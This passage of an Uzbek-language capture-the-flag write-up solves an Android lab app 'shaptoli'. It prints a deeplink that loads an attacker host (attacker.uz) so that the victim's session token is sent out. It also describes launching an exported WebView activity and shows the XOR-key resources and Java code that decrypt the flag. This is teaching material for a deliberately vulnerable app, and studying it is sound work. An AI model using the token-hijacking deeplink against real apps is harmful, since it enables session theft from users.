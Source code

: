 ```
Ikkinchi yo'li shunchaki shu havolani ustiga bosish, yuqorida aytilganidek deeplink bu link, ustiga bosish yetarli va shu yo'li intended wayga eng yaqini, sababi haqiqiy hujumda victimga shu havola jo'natiladi va uni sessiyasi bizga keladi, ADB kamandani hujumda ishlatish hujumni uzaytiradi:
```vulnapp://load?url=attacker.uz/shaptoli.uz```

Lekin aytaylik, bizda deeplink yo'q, lekin WebView Activity biz bergan linkni olib rostdan sessiya token jo'natadi, unda yangi APK yoziladi, APK WebView activityni narigi vulnerable dasturda ishga tushiradi va biz bergan linkni parametr sifatida beradi, bu juda uzun yo'li. O'xshashi uchun WebView activity exported="True" ya'ni, boshqa dastur tomonidan ishga tushirila olinishi kerak.

## Solution 2 - Dynamic Reverse Engineering

_get_payload_data() funskiyada ecrypt qilingan Flag dencrypt qilinishini ko'rsak bo'ladi:

### strings.xml, arrays.xml yoki R.array.etc qayerdan kelyabdi? - vebsayt yozyotganda ko'pchilik Environment variablesni .env ichida saqlaydi, keyinchalik .env fayl ichidagi login, parollarni kod ichidan turib chaqiradi, Android appda ham shunga yaqin narsa bor, string, array, boshqa resurslarni /res folderda saqlashimiz mumkin:
```
strings.xml:
<resources>
    <string name="app_name">shaptoli</string>
    <string name="RDgerewR34TS">GSwBND4eJWAHFRtWAxNQERQDDF9tQRAqEWRKLwlCPxg=</string>
    <string name="egwgweDdewgfewf">TXlTdXBlcg==</string>
    <string name="SysCall_Num">5365637265744C6162</string>
</resources>
```
Bu yerdan turib oddiy R.string.app_name deb bizga kerakli strigni chaqiraveramiz, Shaptoli ichida ham XOR key uchga bo'lingan va alohida strings.xml ichida saqlangan

```
    private String _get_payload_data() {
        try {
            String enc = getString(R.string.RDgerewR34TS); // XOR key 1-part

            byte[] p1 = Base64.decode(getString(R.string.egwgweDdewgfewf), Base64.DEFAULT);
            String part1 = new String(p1, StandardCharsets.UTF_8); // MySuper

            String hex = getString(R.string.SysCall_Num); // XOR key 2-part
            byte[] p2 = new byte[hex.length() / 2];
            for (int i = 0; i < hex.length(); i += 2) {
                p2[i / 2] = (byte) Integer.parseInt(hex.substring(i, i + 2), 16);
            }
            String part2 = new String(p2, StandardCharsets.UTF_8); // SecretLab

            int[] ints = getResources().getIntArray(R.array.Random_brute_numbers); // XOR key 3-part
            StringBuilder sb = new StringBuilder();
            for (int v : ints) sb.append((char) v);
            String part3 = sb.toString(); // Key123!

            byte[] keyBytes = (part1 + part2 + part3).getBytes(StandardCharsets.UTF_8); // 3ta key birlashtirilyapti
            byte[] data = Base64.decode(enc, Base64.DEFAULT); // FLAG base64 dan decode qilinadi
            byte[] flagBytes = _xor_op(data, keyBytes); // Loop bilan shu yerda XOR dan decryption qilinadi o'zini holatiga
            return Base64.encodeToString(flagBytes, Base64.NO_WRAP); // Decrypt qilingan FLAG base64 qilinadi yana serverga yuborilgani
        } catch (Exception e) {
            Log.e(TAG, "Error in _get_payload_data", e);
            return "ERROR_GENERATING_TOKEN";
        }
    }
```

Hullas _get_payload_data() flagni XOR key orqali decrypt qiladi, biz Dynamic Reverse Engineering orqali App ishlayotgan (runtime) paytida flagni xotiradan olsak bo'ladi decrypt qilingan holatida.
```